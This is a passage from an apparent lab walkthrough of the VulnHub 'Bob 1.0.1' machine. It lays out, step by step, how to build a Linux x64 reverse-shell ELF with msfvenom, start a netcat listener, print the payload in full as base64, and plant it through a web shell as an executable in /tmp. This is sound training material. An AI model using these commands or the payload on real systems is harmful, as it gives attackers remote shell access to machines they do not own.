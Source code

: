 ***Step 1: Generate a reverse shell with `msfvenom`***

Before you generate the reverse shell, you need to determine the target's OS architecture—by running `uname -a` in the web shell. `msfvenom` needs this information to generate the correct reverse shell.

![0.roxsyv6gela](/assets/images/posts/bob-1.0.1-walkthrough/0.roxsyv6gela.png)

The target is running 64-bit Debian.

```
# msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.20.128 LPORT=4444 -a x64 --platform linux -f elf -o rev
No encoder or badchars specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: rev
```

***Step 2: Set up `netcat` listener***

```
# nc -lnvp 4444
```

***Step 3: Encode the reverse shell in `base64`***

```
# base64 rev | tr -d  '\n' && echo
f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAAwgAAAAAAAAAMAQAAAAAAAAAQAAAAAAAAailYmWoCX2oBXg8FSJdIuQIAEVzAqBSAUUiJ5moQWmoqWA8FagNeSP/OaiFYDwV19mo7WJlIuy9iaW4vc2gAU0iJ51JXSInmDwU=
```

***Step 4: Run `echo -n [output from #3] | base64 -d > /tmp/rev`***

Because the output of this step ends up in file redirection, you don't see anything visible in the web shell. You can use `md5sum` for verification on your attacking machine and in the web shell to ensure the reverse shell is intact and unmodified.

```
# md5sum rev
f05a125872c14d573304819ac2997782  rev
```
![0.rxt6dcx6xhs](/assets/images/posts/bob-1.0.1-walkthrough/0.rxt6dcx6xhs.png)

Good. Both files are identical.

***Step 5: Run `chmod +x /tmp/rev`***

Although this step produces no visible output, you can use `ls.sh` to verify that `rev` is executable.

![0.kscltrqq2b](/assets/images/posts/bob-1.0.1-walkthrough/0.kscltrqq2b.png)


[1]: https://www.vulnhub.com/series/bob,152/
[2]: http://c0rruptedb1t.ddns.net/
[3]: https://www.vulnhub.com